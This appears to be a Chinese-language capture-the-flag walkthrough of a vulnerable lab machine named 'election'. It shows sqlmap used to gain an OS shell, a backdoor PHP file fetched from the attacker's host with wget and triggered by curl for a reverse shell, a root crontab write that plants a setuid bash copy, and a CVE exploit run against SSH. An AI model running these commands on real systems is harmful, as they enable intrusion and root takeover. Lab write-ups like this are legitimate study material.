 证明存在，进行 os-command:

```
sqlmap -r req.txt --level=5 --risk=3 --batch --os-shell

which nc
/bin/nc
```

用 wget 将后门 php 代码下载到/var/www/html 根目录中 , kali 上监听 8888 端口，curl 访问这个上传的 php 页面，进行反弹。

os-shell 上执行：

```
wget http://192.168.5.3/5.3/8888.php

os-shell> ls
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
8888.php
election
index.html
phpinfo.php
robots.txt
tmpbszrg.php
tmpuxylz.php
```

kali 上执行：

```
curl http://192.168.5.30/8888.php
```

获得了反弹的 shell，升级 tty。

进行系统枚举，发现 /home 目录下有一个 love 用户。

sudo、getcap 没有特殊的设置。

发现 /home/love 设置了 suid。在 /home/love/Desktop 中发现 user flag，但是没有读取权限。

发现 /var/spool/cron/crontabs/root 对 www-data 用户可写，这样就能把后门触发脚本写到里面，然后以 root 用户身份触发：

```
www-data@election:/var/spool/cron/crontabs$ ls -al /var/spool/cron/crontabs/root
-rw------- 1 www-data www-data 1089 Oct 21  2019 /var/spool/cron/crontabs/root
```

```
echo '* * * * * cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' >> /var/spool/cron/crontabs/root
```

但是在/tmp 中没有出现我们想要的结果，估计是坑，寻找其他路径吧。

发现 /var/www/.bash_history 文件，里面有一些操作，可能有 love 用户的密码。

```
python3 cve-2020-8635.py -t 192.168.1.4:22 -u love -p 1234567890
```
